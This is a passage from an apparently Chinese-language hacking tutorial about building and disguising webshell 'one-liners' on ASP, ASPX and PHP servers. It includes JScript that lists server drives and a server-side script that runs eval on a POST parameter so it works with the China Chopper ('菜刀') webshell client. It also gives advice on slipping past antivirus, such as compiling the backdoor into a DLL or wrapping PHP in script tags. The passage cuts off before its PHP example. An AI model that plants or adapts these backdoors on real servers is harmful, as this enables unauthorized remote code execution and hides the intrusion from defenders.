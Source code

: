 ```
try{var S="->|"+Server.Mappath("/")+"\t";var oFso = Server.CreateObject("Scripting.FileSystemObject");var oDrivers = oFso.Drives;for(var x=new Enumerator(oDrivers);!x.atEnd();x.moveNext()) {var oDriver = x.item();S+=oDriver.Path;}S+="|<-";Response.write(S);}catch(e){} 
```

![2013122818165995078_jpg.jpg](img/img7_u34_jpg.jpg)

这个一句话已经满足我们的所有要求了，但是你会说它依然不完美，因为它不支持 Chopper！好吧，那就再费心改造一下吧…… 经过改造后的 Shell 代码如下：

```
<SCRIPT RUNAT=SERVER LANGUAGE=JAVASCRIPT>
    var Sp = Request.form('z');
    var Fla = {'E' : eval};
    var St=""
    var A="XX 代码";
    var B="XX 代码";
    var C="XXXXXX"; ……
    switch(Sp) { case "A": St=A; break; case "B": St=B; break; case "C": St=C; break; case "D": St=D; case "E": St=E; break; …… default:} Fla.E(St+'');
</SCRIPT> 
```

这样就可以使用“菜刀”连接了(我省略了代码，精简了重点部分上面只是个示例。)

好吧，ASP 一句话到这已经玩的很开心了，那接下来说下 ASPX、PHP 吧，是这样的，我不懂.net 编程，也不懂 PHP 编程。自己顶多也就算是个无证&业余程序猿，所以从这往下所述的您能看就看，不能看就使劲吐槽！！！！！

总的来说上面的 ASPX 一句话已经够玩了，但是如果您是个追求完美的人，您可以将您的代码编译入 Dll，然后放入 bin 目录(lake2 N 年前不就这么做了吗：WebAdmin 2.Y 详见：[`blog.csdn.net/lake2/article/details/575602`](http://blog.csdn.net/lake2/article/details/575602)),dll 中的代码用记事本能看吗！更别提杀了……

最后来说一下 PHP 吧，变形方法和 ASP、ASPX 的没什么两样。您可以将代码写入<script language=php>标签内以增大迷惑性，但这一招和 ASP 的 vbscript 一样对于安全类软件早已经失效，没说它们视如?>?>所以呢，看实际情况和使用的地方了，自己选择。

通过简单的变量传递便可以实现免杀(php 语法真的好灵活，能免的连个毛都不剩下)……
我使用如下代码作为一句话：
